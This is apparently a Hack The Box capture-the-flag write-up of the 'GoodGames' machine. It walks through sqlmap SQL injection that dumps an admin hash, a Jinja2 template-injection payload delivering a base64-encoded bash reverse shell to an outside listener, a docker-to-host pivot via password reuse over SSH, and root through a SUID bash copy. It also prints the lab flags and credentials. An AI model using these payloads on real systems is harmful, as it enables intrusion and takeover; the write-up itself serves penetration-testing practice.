

Flags
- User
- 38ed0407ae011c2db532321465b5b6bc
- Root
- 168d25556c9fb621f1deea5c2a9b62e2
Notes
- First, let’s do a scan
rustscan --ulimit 5000 --addresses "10.129.2.14" --top -- -sC -sV
- Looks like nothing too crazy, appears to be a web server pointing to a domain named goodgames.htb
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.48
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
| http-methods:
|_ Supported Methods: GET HEAD OPTIONS POST
Service Info: Host: goodgames.htb
- Visiting the IP, I was able to get access to the website, which appears to be a mock video games new site
- I will go ahead and run gobuster in the background
[Jan 30, 2026 - 21:24:29 (PST)] exegol-htb-labs /workspace # gobuster dir -w `fzf-wordlists` -u http://10.129.96.71 --exclude-length 9265
- I noticed a login page, so I am going to go ahead and fire up Burp Suite and see if we can get anything interesting from there
- Nothing notable from gobuster
[Jan 30, 2026 - 21:24:29 (PST)] exegol-htb-labs /workspace # gobuster dir -w `fzf-wordlists` -u http://10.129.96.71 --exclude-length 9265
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.129.96.71
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /opt/lists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes: 404
[+] Exclude Length: 9265
[+] User Agent: gobuster/3.8
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog (Status: 200) [Size: 44212]
/login (Status: 200) [Size: 9294]
/profile (Status: 200) [Size: 9267]
/signup (Status: 200) [Size: 33387]
/logout (Status: 302) [Size: 208] [--> http://10.129.96.71/]
/forgot-password (Status: 200) [Size: 32744]
/coming-soon (Status: 200) [Size: 10524
- I was able to get something going after modifying the SQL injection a bit:

- Now, we can save it and run it through sqlmap to find any other SQL injection opportunities
[Jan 30, 2026 - 21:48:53 (PST)] exegol-htb-labs /workspace # sqlmap -r goodgames.req
- From the results, it appears the email field is SQL injectable:
[21:50:04] [INFO] parsing HTTP request from 'goodgames.req'
[21:50:04] [INFO] testing connection to the target URL
[21:50:04] [INFO] testing if the target URL content is stable
[21:50:05] [INFO] target URL content is stable
[21:50:05] [INFO] testing if POST parameter 'email' is dynamic
[21:50:05] [WARNING] POST parameter 'email' does not appear to be dynamic
[21:50:05] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[21:50:05] [INFO] testing for SQL injection on POST parameter 'email'
[21:50:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:50:07] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[21:50:07] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[21:50:07] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[21:50:08] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[21:50:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[21:50:09] [INFO] testing 'Generic inline queries'
[21:50:09] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[21:50:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[21:50:10] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[21:50:10] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:50:21] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[21:50:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:50:48] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n]
[21:50:53] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:50:54] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N]
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[21:51:04] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[21:51:06] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n
[21:51:14] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') and/or try to force the back-end DBMS (e.g. '--dbms=mysql')
[21:51:14] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 132 HTTP(s) requests:
---
Parameter: email (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=admin@goodgames.htb' AND (SELECT 7844 FROM (SELECT(SLEEP(5)))KfPo) AND 'YHjs'='YHjs&password=password
---
[21:51:47] [INFO] the back-end DBMS is MySQL
[21:51:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[21:51:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.129.96.71'
[21:51:48] [WARNING] your sqlmap version is outdated
[*] ending @ 21:51:48 /2026-01-30/
- Now, we will try against the databases
[Jan 30, 2026 - 21:56:20 (PST)] exegol-htb-labs /workspace # sqlmap -r goodgames.req --dbs
___
__H__
___ ___[(]_____ ___ ___ {1.9.7.7#dev}
|_ -| . [,] | .'| . |
|___|_ [']_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program
[*] starting @ 21:56:22 /2026-01-30/
[21:56:22] [INFO] parsing HTTP request from 'goodgames.req'
[21:56:22] [INFO] resuming back-end DBMS 'mysql'
[21:56:22] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=admin@goodgames.htb' AND (SELECT 7844 FROM (SELECT(SLEEP(5)))KfPo) AND 'YHjs'='YHjs&password=password
---
[21:56:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[21:56:22] [INFO] fetching database names
[21:56:22] [INFO] fetching number of databases
[21:56:22] [INFO] resumed: 2
[21:56:22] [INFO] resuming partial value: information_sche
[21:56:22] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[21:56:32] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[21:56:42] [INFO] adjusting time delay to 1 second due to good response times
ma
[21:56:50] [ERROR] invalid character detected. retrying..
[21:56:50] [WARNING] increasing time delay to 2 seconds
[21:56:50] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main
[21:57:15] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.129.96.71'
[21:57:15] [WARNING] your sqlmap version is outdated
[*] ending @ 21:57:15 /2026-01-30/
- It was able to find two databases, so I will go ahead and iterate main
[Jan 30, 2026 - 22:18:28 (PST)] exegol-htb-labs /workspace # sqlmap -r goodgames.req --tables -D main
___
__H__
___ ___[)]_____ ___ ___ {1.9.7.7#dev}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program
[*] starting @ 22:18:32 /2026-01-30/
[22:18:32] [INFO] parsing HTTP request from 'goodgames.req'
[22:18:32] [INFO] resuming back-end DBMS 'mysql'
[22:18:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=admin@goodgames.htb' AND (SELECT 7844 FROM (SELECT(SLEEP(5)))KfPo) AND 'YHjs'='YHjs&password=password
---
[22:18:34] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:18:34] [INFO] fetching tables for database: 'main'
[22:18:34] [INFO] fetching number of tables for database 'main'
[22:18:34] [INFO] resumed: 3
[22:18:34] [INFO] resumed: blog
[22:18:34] [INFO] resumed: blog_comments
[22:18:34] [INFO] resumed: user
Database: main
[3 tables]
+---------------+
| user |
| blog |
| blog_comments |
+---------------+
[22:18:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.129.96.71'
[22:18:34] [WARNING] your sqlmap version is outdated
[*] ending @ 22:18:34 /2026-01-30/
- User is likely is what has the admin credentials in it, so let’s iterate through that now
+----+---------------------+--------+-----------------------------------------+
| id | email | name | password |
+----+---------------------+--------+-----------------------------------------+
| 1 | admin@goodgames.htb | admin | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2 | test@test.com | test | 098f6bcd4621d373cade4e832627b4f6 (test) |
+----+---------------------+--------+-----------------------------------------+
- We get the password as a md5 hash, so we need to unhash it
- We then can use CrackStation to get the full credential set
- admin@goodgames.htb:superadministrator
- There is a link to an internal site, but we need to add into our hosts file now at this point
echo "10.129.96.71 goodgames.htb" | sudo tee -a /etc/hosts
- Still didn’t work, probably because we need to add in the subdomain too, so let’s do that
10.129.96.71 goodgames.htb
10.129.96.71 internal-administration.goodgames.htb
- From that, we are greeted by a Flask Volt dashboard login
- I was able to use the same administration credentials, minus the email address part
- Going to the settings, I was able to use SSTI on the Name component
- Now that we know that, we can generate a payload:
echo -ne 'bash -i >& /dev/tcp/10.10.15.4/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40LzQ0NDQgMD4mMQ==
- And then start up the listener
nc -lvnp 4444
- Then, we can deliver it
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40LzQ0NDQgMD4mMQ==${IFS}|base64${IFS}-d|bash').read()}}
- I was able to get a shell, and looks like root as well
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.96.71.
Ncat: Connection from 10.129.96.71:41908.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend#
- I will go ahead and grab the user flag
root@3a453ab39d3d:/home/augustus# cat user.txt
cat user.txt
38ed0407ae011c2db532321465b5b6bc
- However, it is evident that I am on a docker container, so we need to break out of that.
- Looking for mounts, it looks like the host files and such are taken from the main drive
root@3a453ab39d3d:/home/augustus# mount
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BMOEKLXDA4EFIXZ4O4AP7LYEVQ:/var/lib/docker/overlay2/l/E365MWZN2IXKTIAKIBBWWUOADT:/var/lib/docker/overlay2/l/ZN44ERHF3TPZW7GPHTZDOBQAD5:/var/lib/docker/overlay2/l
/BMI22QFRJIUAWSWNAECLQ35DQS:/var/lib/docker/overlay2/l/6KXJS2GP5OWZY2WMA64DMEN37D:/var/lib/docker/overlay2/l/FE6JM56VMBUSHKLHKZN4M7BBF7:/var/lib/docker/overlay2/l/MSWSF5XCNMHEUPP5YFFRZSUOOO:/var/lib/docker/overlay2/l/3VLCE4GRHDQSBFCRABM
7ZL2II6:/var/lib/docker/overlay2/l/G4RUINBGG77H7HZT5VA3U3QNM3:/var/lib/docker/overlay2/l/3UIIMRKYCPEGS4LCPXEJLYRETY:/var/lib/docker/overlay2/l/U54SKFNVA3CXQLYRADDSJ7NRPN:/var/lib/docker/overlay2/l/UIMFGMQODUTR2562B2YJIOUNHL:/var/lib/doc
ker/overlay2/l/HEPVGMWCYIV7JX7KCI6WZ4QYV5,upperdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/diff,workdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99
e859623/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /sys/firmware type tmpfs (ro,relatime)
- Looks like only the host address it appears
root@3a453ab39d3d:/home/augustus# cat /etc/hosts
cat /etc/hosts
127.0.0.1 localhost
::1 localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.2 3a453ab39d3d
- We can go ahead and scan for ports, I will take advantage of this bash script I found online in a writeup
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT
&>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
- From here, we are able to see that SSH is open
port 22 is open
port 80 is open
- I was then able to login as augustus on the host machine
root@3a453ab39d3d:/home/augustus# script /dev/null bash
script /dev/null bash
Script started, file is /dev/null
# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
whoami
augustus
augustus@GoodGames:~$
- I am able to put the bash executable into ownership of root within the container
augustus@GoodGames:~$ cp /bin/bash .
cp /bin/bash .
augustus@GoodGames:~$ exit
exit
logout
Connection to 172.19.0.1 closed.
# chown root:root bash
chown root:root bash
# chmod 4755 bash
chmod 4755 bash
# ls -la bash
ls -la bash
-rwsr-xr-x 1 root root 1168776 Jan 31 18:37 bash
- However, once we get back as augustus, it has root permissions, so we can actually run it now to spawn a bash shell
augustus@GoodGames:~$ ./bash -p
./bash -p
bash-5.0# whoami
whoami
root
bash-5.0#
- Now we can read out the root flag!
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
root.txt
bash-5.0# cat root.txt
cat root.txt
168d25556c9fb621f1deea5c2a9b62e2